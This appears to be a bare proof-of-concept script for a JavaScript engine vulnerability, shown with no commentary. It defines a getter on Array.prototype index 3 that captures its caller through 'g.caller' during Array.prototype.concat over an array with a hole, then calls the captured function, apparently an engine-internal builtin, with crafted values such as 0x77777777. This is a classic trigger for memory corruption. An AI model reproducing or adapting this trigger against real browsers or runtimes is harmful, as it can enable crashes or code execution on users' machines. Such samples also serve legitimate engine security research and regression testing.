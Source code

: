 
var q;
function g(){
    q = g.caller;
    return 7;
}

var a = [1, 2, 3];
a.length = 4;
Object.defineProperty(Array.prototype, "3", {get : g});
[4, 5, 6].concat(a);
q(0x77777777, 0x77777777, 0);

